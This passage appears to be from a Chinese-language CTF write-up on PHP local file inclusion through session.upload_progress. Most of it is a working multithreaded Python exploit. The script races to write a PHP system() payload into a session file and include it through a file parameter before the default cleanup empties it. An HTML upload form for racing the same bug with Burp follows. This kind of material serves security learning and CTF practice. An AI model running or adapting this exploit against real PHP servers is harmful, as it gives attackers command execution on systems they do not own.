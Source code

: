 > 
还有一个问题没有解决，默认配置session.upload_progress.cleanup = on导致文件上传后，session文件内容会立即被清空，所以这里就需要去使用多线程同时进行写和读，进行条件竞争，在session文件清除前进行包含利用


```
import requests
import io
import threading

url = 'http://xxx.xxx.xx.xx:80/H3rmesk1t/demo.php'
sessID = 'H3rmesk1t'

def write(session):
    #判断event的标志是否为True
    while event.isSet():
        #上传文件要大一点,更有利于条件竞争
        f = io.BytesIO(b'H3rmesk1t' * 1024 * 50)
        reponse = session.post(
            url,
            cookies={'PHPSESSID': sessID},
            data={'PHP_SESSION_UPLOAD_PROGRESS':'&lt;?php system("cat flag");?&gt;'},
            files={'file':('text.txt',f)}
        )
def read(session):
    while event.isSet():
        reponse = session.get(url + '?file=/phpstudy/phpstudy_x64/phpstudy_pro/Extensions/tmp/sess_{}'.format(sessID))
        if 'D1no' in reponse.text:
            print(reponse.text)
            #将event的标志设置为False，调用wait方法的所有线程将被阻塞；
            event.clear()
        else:
            print('[*]continued')

if __name__ == '__main__':
    #通过threading.Event()可以创建一个事件管理标志，该标志（event）默认为False
    event = threading.Event()
    #将event的标志设置为True，调用wait方法的所有线程将被唤醒；
    event.set()
    #会话机制(Session）在PHP 中用于保持用户连续访问Web应用时的相关数据
    with requests.session() as session:
        for i in range(1,30):
            threading.Thread(target=write, args=(session,)).start()
        for i in range(1,30):
            threading.Thread(target=read, args=(session,)).start()

```

> 
这样就可以得到flag了,除此之外，还可以使用burp来进行条件竞争，例如利用下面的html上传代码上传一个文件


```
&lt;!DOCTYPE html&gt;
&lt;html&gt;
&lt;body&gt;
&lt;form action="http://localhost/H3rmesk1t/demo.php" method="POST" enctype="multipart/form-data"&gt;
&lt;input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="H3rmesk1t" /&gt;
&lt;input type="file" name="file" /&gt;
&lt;input type="submit" value="submit" /&gt;
&lt;/form&gt;
&lt;/body&gt;
&lt;/html&gt;

```